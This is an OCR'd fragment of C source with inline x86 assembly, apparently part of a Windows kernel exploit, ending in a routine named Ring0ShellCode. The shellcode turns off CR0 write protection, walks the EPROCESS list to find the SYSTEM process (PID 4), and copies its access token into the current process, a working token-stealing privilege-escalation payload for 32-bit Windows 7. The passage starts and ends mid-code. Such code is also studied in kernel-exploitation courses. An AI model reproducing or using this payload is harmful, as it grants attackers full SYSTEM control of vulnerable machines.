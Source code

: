 ```
 
exit:
    if (hDevice) NtClose(hDevice);
    system("pause");
    return 0;
}
 
void ShowError(PCHAR msg)
{
    printf("%s Error 0x%X\n", msg, GetLastError());
}
 
VOID __declspec(naked) Ring0ShellCode()
{
    __asm
    {
        pushfd
        pushad
        sub esp, 0x40
    }
 
    // 关闭页保护
    __asm
    {
        cli
        mov eax, cr0
        and eax, ~0x10000
        mov cr0, eax
    }
 
    __asm
    {
        // 取当前线程
        mov eax, fs:[0x124]
        // 取线程对应的EPROCESS
        mov esi, [eax + 0x150]
        mov eax, esi
    searchWin7:
        mov eax, [eax + 0xB8]
        sub eax, 0x0B8
        mov edx, [eax + 0xB4]
        cmp edx, 0x4
        jne searchWin7
        mov eax, [eax + 0xF8]
        mov [esi + 0xF8], eax
    }
 
    // 开起页保护
    __asm
    {
        mov eax, cr0
        or eax, 0x10000
        mov cr0, eax
        sti
    }
 
    g_bIsExecute = TRUE;
 
    __asm
    {
        add esp, 0x40
        popad
        popfd
```